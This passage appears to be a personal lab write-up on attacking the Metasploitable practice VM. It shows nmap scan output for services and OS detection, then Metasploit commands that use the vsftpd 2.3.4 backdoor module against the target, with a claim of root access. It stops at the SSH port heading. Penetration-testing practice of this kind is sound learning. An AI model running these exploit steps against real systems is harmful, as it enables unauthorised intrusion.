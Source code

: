 |_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/5.5
MAC Address: 08:00:27:37:49:9C (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Host:  metasploitable.localdomain; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2018-03-13T12:29:18-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT     ADDRESS
1   0.39 ms 192.168.0.117

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.26 seconds


################################################################################################

NOW WE OPEN METASPLOIT AND START HACKIN'

################################################################################################
21/tcp   open  ftp   


searched for ftpserver vsftpd 2.3.4 vulnerabilites and i found this backdoor(unix/ftp/vsftpd_234_backdoor)

msf > use unix/ftp/vsftpd_234_backdoor
msf auxiliary(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.0.117
msf auxiliary(unix/ftp/vsftpd_234_backdoor) > run

i gained full root access

################################################################################################
22/tcp   open  ssh  

